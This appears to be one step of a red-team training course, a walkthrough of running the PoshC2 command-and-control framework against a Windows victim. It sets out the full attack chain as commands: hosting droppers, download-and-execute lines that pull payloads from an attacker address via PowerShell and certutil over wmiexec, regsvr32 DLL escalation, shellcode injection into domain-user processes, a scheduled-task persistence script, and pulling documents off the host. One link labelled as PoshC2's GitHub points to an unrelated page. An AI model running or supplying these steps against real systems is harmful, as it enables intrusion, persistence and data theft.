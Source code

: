 # Running Poshc2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `bindport` to 80, the `payloadcommshost` to http://(parrot IP) Make sure you delete the s in https

Launch the Poshc2 server:
```
posh-server
```

Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

The Poshc2 Implant Types can be summarized as:
* `PS` - PowerShell Implant.
* `C#` - C# Implant that does not use System.Management.Automation.dll.
* `PY` - Python Implant.
* `PB` - PBind

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file options 
```console
file location > /var/poshc2/<YourProjectName>/payloads/Sharp_v4_dropper_x64.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine using a basic user
```powershell
iwr -uri http://<YouripOrDomian>/en-us/readme.md -outfile C:\windows\temp\bad.exe; C:\windows\temp\bad.exe
```

Interact with implant by typeing `1` in ImplantHandler

# User Escalation

Check for running process 
```ps 
ps
```
> As a basic user you'll only be able to see anything ran under your own context. 

Lets escalate to system through execution  

Upload a the dll to the machine 
```ps
> upload-file 
> /var/poshc2/projetname/payloads/Sharp_v4_x64.dll
> location C:\windows\temp\updater.dll 
```

Execute dll using local windows binaries 
```ps
sharpps regsvr32 C:\windows\temp\updater.dll
``` 
> For more on native window binaries look [here](https://lolbas-project.github.io/)

After execution you should see a system level beacon return in ImplantHandler  

Once you are system you can Enumerate for other users on the box with domain access. 
```ps
ps
```

Search for any user process being ran as a domain user, to inject into

```ps
inject-shellcode <PID> 
```
```ps
<name_of_shellcode.bin>
```

Checking your ImplantHandler you should see a new beacon running in the context of said user.

As a domain user you can now run domain level commands, you can check your groups and privileges 
``` 
sharpps net user <domain username>
```

# Persistence and Scripting 

Now to maintain our domain user privilege lets create a .ps1 script to set persistence using registry keys  

On your attack box with the editor of your choice copy the following 
```ps
$payloadpath = "C:\windows\temp\bad.exe"
$taskname = "Test Updater"
$tskdescription = "This task updates things."
$action = New-ScheduledTaskAction -Execute $payloadpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname $taskname -Description $tskdescription
```
> Learn more about powershell `New-ScheduledTaskTrigger` [here](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps)

Save your pslo script as bad.ps1 in /home/parrot/desktop/bad.ps1

Lets run the .ps1
```
pslo /home/parrot/desktop/bad.ps1
```

You should see your scheduled task name appear for confirmation 

# Lateral Movement 

**Only if you have more than one victim machine. If you don't, skip to Step 2**

Now lets run a `sharpview` to enumerate the network to conduct lateral movement
```
sharpview 
```
> Read more on sharpview [here](https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage)

We can use the enumeration script to identify the next workstation to laterally move to 

```
resolveip 127.0.0.1
```

Lets host a new payload 
```
add-hosted-file
```

Host file opttions 

```console
file location > /var/poshc2/projectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /verify
file MIME type > text/html
Base64 > n
```

Run wimc to get download and execution of hosted payload
```powershell
wmiexec 127.0.0.1 <domain> <username> password=asdsa "cmd /c certutil.exe -urlcache -split -f http://badip/verify C:\windows\downloads\bad2.exe && C:\windows\downloads\bad2.exe"
```

In ImplantHandler interact with the new payload 

Lets run a built in host enumeration script 
```
seatbelt
```
Take some time to look at the differnet feilds, look into any that you dont recognize.

In the new payload handler lets navigate to the `documents` folder 
```
cd C:\users\username\documents
```

lets see what documents we can find 
```
ls
```

Now lets download some files 
```
download-file <filename>
```

Congratulations you have ran through your first OPPLAN, check [here](poshc2_help_v8.md) for the help list for Poshc2 and other commands you can run.

## [Return to course page](README.md) or [Go To Next Step](step2-proxy-nginx.md)